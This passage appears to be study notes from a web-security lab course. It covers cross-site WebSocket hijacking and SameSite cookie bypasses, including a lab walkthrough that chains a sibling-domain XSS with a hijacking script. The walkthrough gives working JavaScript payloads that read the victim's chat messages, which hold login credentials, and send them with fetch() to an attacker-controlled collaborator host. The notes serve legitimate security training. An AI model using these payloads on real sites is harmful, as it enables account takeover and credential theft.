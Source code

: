 In addition to classic CSRF, don't forget that if the target website supports WebSockets, this functionality might be vulnerable to cross-site WebSocket hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake. For more details, see our topic on WebSocket vulnerabilities.
### Lab: SameSite Strict bypass via sibling domain

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

If you haven't done so already, we recommend completing our topic on WebSocket vulnerabilities before attempting this lab. 

Notice that responses to requests for resources like script and image files contain an Access-Control-Allow-Origin header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`. 

Observe that the username is reflected in the response in the **Invalid username message**, which is vul to XSS.

**Bypass the SameSite restrictions**

```html
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
```html
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```
### Bypassing SameSite Lax restrictions with newly issued cookies

Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions.

As mentioned earlier, if a website doesn't include a SameSite attribute when setting a cookie, Chrome automatically applies Lax restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.
Note
